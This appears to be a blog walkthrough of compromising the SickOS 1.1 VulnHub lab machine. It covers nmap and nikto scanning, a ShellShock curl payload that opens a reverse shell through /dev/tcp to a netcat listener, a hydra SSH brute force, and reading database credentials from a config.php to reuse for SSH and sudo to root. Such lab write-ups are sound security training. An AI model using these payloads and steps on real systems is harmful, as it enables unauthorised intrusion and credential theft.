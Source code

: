 ```yaml
---
layout: post
title: "SickOS 1.1 Walkhrough"
tags: [hacking, lab]
---
```

  _________.__        __   ________    _________  ____     ____ 
 /   _____/|__| ____ |  | _\_____  \  /   _____/ /_   |   /_   |
 \_____  \ |  |/ ___\|  |/ //   |   \ \_____  \   |   |    |   |
 /        \|  \  \___|    </    |    \/        \  |   |    |   |
/_______  /|__|\___  >__|_ \_______  /_______  /  |___| /\ |___|
        \/         \/     \/       \/        \/         \/      

This is a walkthrough of [SickOS 1.1](sickos1.1-url) found on [VulnHub](vulnhub-url). The objective is to compromise the VM, gain
root priveleges, and find the flag. We need to treat this machine as a remote server, so we can't use any kernel tricks here.

After booting the virtual machine I needed to find the IP address of the box, so I did a simple ping sweep.

{% highlight bash %}
nmap -n -sP 172.16.49.0/24
{% endhighlight %}

![SickOS 1.1 Ping Sweep]({{ site.url }}/img/sickos1.1-ping-sweep.png)

The IP address of the SickOS 1.1 server is 172.16.149.133. I knew this because the Kali VM IP address is 172.16.149.132. Now
that I have the IP of the SickOS server I need to identify any open ports. Running a nmap scan of the host will give me the 
information I need to get started:

{% highlight bash %}
nmap -n -Pn -sS -p - 172.16.149.133
{% endhighlight %}

![SickOS 1.1 Nmap Scan]({{ site.url }}/img/sickos1.1-nmap-scan.png)

The results show that we have what looks like Squid Proxy Server open on port 3128 and SSH on port 22. Next I want to run a 
Nikto scan to look for any low hanging fruit. Be sure to use the "-useproxy" flag so the scan runs through the proxy.

{% highlight bash %}
nikto -h http://172.16.149.133 -useproxy 172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 Nikto Scan]({{ site.url}}/img/sick0s1.1-nikto-scan.png)

Some interesting results return from the Nikto scan. Here we can see that the "/cgi-bin/status" portion of the site is vulnerable
to ShellShock. We will use this an attack vector to exploit the server and gain access to the box. Open a second terminal window
and establish a netcat listener.

{% highlight bash %}
nc -lvnp 666
{% endhighlight %}

Now we exploit ShellShock using curl.
{%  highlight bash %}
curl -H "User-Agent: () { ;: }; /bin/bash -i >& /dev/tcp/172.16.149.132/666 0&>1" http://172.16.149.133/cgi-bin/status -x http://172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 ShellShock Exploit]({{ site.url }}/img/shellshock-exploit.png)

After running the curl command, switch over to the terminal window that is running our Netcat listener. You should have been 
given a shell prompt.

![SickOS 1.1 Reverse Shell Prompt]({{ site.url }}/img/sickos1.1-reverse-shell-prompt.png)

Now that we have access on the box we need to gather some information. First I am going to check out the "/etc/passwd" file.

{%  highlight bash %}
cat /etc/passwd
{% endhighlight %}

![SickOS 1.1 /etc/passwd]({{ site.url }}/img/sickos1.1-etc-passwd.png)

In the results we see that an account exists with the username "sickos", a directory in "home", and that the user has shell access
on the box. Now I want to check out the "/etc/group" file for more information.

{%  highlight bash %}
cat /etc/group
{% endhighlight %}

![SickOS 1.1 /etc/group]({{ site.url }}/img/sickos1.1-etc-group.png)

The results show that the user "sickos" is part of the "adm" group. This is indicative of the user being able to use the sudo command to
access root. Armed with this info I am going to attempt bruteforce SSH to see if I can get the password. I figure I will let hydra
run while I poke around the box looking for any further useful information.

{% highlight bash %}
hydra -t 10 -l sickos -P /usr/share/wordlist/rockyou.txt -vV 172.16.149.133 ssh
{% endhighlight %}

I tried to get this started several times with no avail - looks like there might be something blocking it, so I am going to continue
gathering information on the box. Because this server is acting as a webserver; typically web files are hosted in "/var/www," so I am
going to change to the directory and list out all files.

{% highlight bash %}
cd /var/www/
ls
{% endhighlight %}

![SickOS 1.1 ls /var/www]({{ site.url.}}/img/sickos1.1-ls-var-www.png)

Here we see a directory called "wolfcms" - this contains the website and configuration files. Within the "wolfcms" dir there is a
file called "config.php." These config files typically have database usernames, passwords, and configuration settings for the 
website, so I am going to take a look.

{% highlight bash %}
cat config.php|head -20
{% endhighlight %}

![SickOS 1.1 config.php Contents]({{ site.url }}/img/sickos1.1-config.php-contents.png)

In the "config.php" is a database username and password. One thing about users' is they tend to use the same password everywhere,
so lets try using it with SSH and the "sickos" user. 

{% highlight bash %}
ssh sickos@172.16.149.133
{% endhighlight %}

The SSH username and pasword worked! Since we know "sickos" is in sudoes lets switch to "root" and see what is in the "/root"
directory.

{% highlight bash %}
sudo su -
# enter sickos password
ls
{% endhighlight %}

Inside the "/root" directory is the flag, cat the file out and we have completed the objective!

![SickOS 1.1 Cat Flag]({{ site.url }}/img/sickos1.1-cat-flag.jpg)

[sickos1.1-url]: https://www.vulnhub.com/entry/sickos-11,132/
[vulnhub-url]: https://www.vulnhub.com/